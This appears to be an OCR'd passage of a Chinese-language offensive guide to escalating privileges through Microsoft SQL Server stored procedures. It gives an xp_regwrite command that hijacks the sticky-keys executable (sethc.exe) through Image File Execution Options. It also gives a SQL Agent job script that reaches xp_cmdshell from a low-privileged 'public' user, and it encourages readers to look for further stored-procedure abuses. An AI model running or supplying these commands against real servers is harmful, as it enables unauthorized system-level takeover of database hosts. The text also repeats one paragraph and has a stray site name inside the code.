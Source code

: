引用前辈们的话

> 1，Access可以调用VBS的函数，以System权限执行任意命令 2，Access执行这个命令是有条件的，需要一个开关被打开 3，这个开关在注册表里 4，SA是有权限写注册表的 5，用SA写注册表的权限打开那个开关 6，调用Access里的执行命令方法，以system权限执行任意命令执行SQL命令，执行了以下命令

#### 4. xp_regwrite

修改注册表 来劫持粘贴键 当然在2008数据库是不成立的 因为默认权限很低

```mssql
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution
Options\sethc.EXE','Debugger','REG_SZ','C:\WINDOWS\explorer.exe';
```

mssql众多的储存过程是我们利用的关键，还有很多可能没被提出，需要自己的发现，比如在遇到iis6的拿不了shell还有个上传可以跳目录，不妨试试xp_create_subdir建立个畸形目录解析。



#### 5. pulic

这种pulic提权 实际情况也很少吧,也是提一下了

```mssql
USE msdb
EXEC sp_add_job @job_name = 'GetSystemOnSQL', www.2cto.com
@enabled = 1,
@description = 'This will give a low privileged user access to
xp_cmdshell',
@delete_level = 1
EXEC sp_add_jobstep @job_name = 'GetSystemOnSQL',
@step_name = 'Exec my sql',
@subsystem = 'TSQL',
@command = 'exec master..xp_execresultset N''select ''''exec
master..xp_cmdshell "dir > c:\agent-job-results.txt"'''''',N''Master'''
EXEC sp_add_jobserver @job_name = 'GetSystemOnSQL',
@server_name = 'SERVER_NAME'
EXEC sp_start_job @job_name = 'GetSystemOnSQL'
```



mssql众多的储存过程是我们利用的关键 当然还有很多可能没被提出，需要自己的发现，比如在遇到iis6的拿不了shell还有个上传可以跳目录，不妨试试xp_create_subdir 建立个畸形目录解析。
